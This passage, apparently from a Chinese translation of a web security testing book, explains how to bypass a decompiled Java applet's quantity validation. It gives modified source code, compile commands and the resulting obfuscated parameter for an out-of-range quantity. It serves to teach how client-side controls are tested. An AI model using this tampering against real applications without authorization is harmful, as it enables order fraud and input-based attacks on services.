 ```java
stringbuilder.append(s3);
}
return stringbuilder.toString();
}
}
```

如反编译源代码所示，Jad在反编译方面做得相当不错，小程序的源代码很简单。当用用户提供的数量和应用程序提供的obfpad参数调用doCheck方法时，小程序首先验证数量是否为有效数字并且在1到50之间。如果是这样，它使用URL查询字符串格式构建一个名称/值对字符串，其中包括验证的数量。最后，它通过对obfpad字符串提供的字符执行异或运算来混淆此字符串。这是添加一些表面混淆以防止琐碎篡改的相当简单且常见的方法。 我们已经描述了在反编译并分析浏览器扩展组件的源代码时可以采取的各种方法。在这种情况下，最简单的破坏小程序的方法如下：

1. 修改doCheck方法以删除输入验证，允许您提供任意字符串作为您的数量。
2. 添加一个main方法，允许您从命令行执行修改后的组件。此方法只需调用修改后的doCheck方法并将混淆结果打印到控制台。 做出这些更改后，修改后的源代码如下：

```java
public class CheckQuantity
{
public static void main(String[] a)
{
System.out.println(doCheck(“999”,
“klGSB8X9x0WFv9KGqilePdqaxHIsU5RnojwPdBRgZuiXSB3TgkupaFigjUQm8CIP5HJxpi
drPOuQPw63ogZ2vbyiOevPrkxFiuUxA8Gn30o1ep2Lax6IyuyEUD9 SmG7c”));
}
public static String doCheck(String s, String s1)
{
String s2 = (new StringBuilder()).append(“rand=”).append
(Math.random()).append(“&q=”).append(s).append
(“&checked=true”).toString();
StringBuilder stringbuilder = new StringBuilder();
for(int j = 0; j < s2.length(); j++)
{
String s3 = (new StringBuilder()).append(‘0’).append
(Integer.toHexString((byte)s1.charAt((j * 19 + 7) % s1.length()) ^
s2.charAt(j))).toString();
int k = s3.length();
if(k > 2)
s3 = s3.substring(k - 2, k);
stringbuilder.append(s3);
}
return stringbuilder.toString();
}
}
```

此修改组件的版本为任意数量的999提供有效的混淆字符串。请注意，您可以在此处使用非数字输入，允许您探测应用程序是否存在各种基于输入的漏洞。 

#### 提示

Jad程序使用.jad扩展名保存其反编译的源代码。但是，如果要修改和重新编译源代码，则需要使用.java扩展名重命名每个源文件。

 剩下的就是使用Java SDK附带的javac编译器重新编译源代码，然后从命令行执行组件：

```bash
C:\tmp>javac CheckQuantity.java
C:\tmp>java CheckQuantity
4b282c510f776a455d425a7808015c555f42585460464d1e42684c414a152b1e0b5a520a
145911171609
```
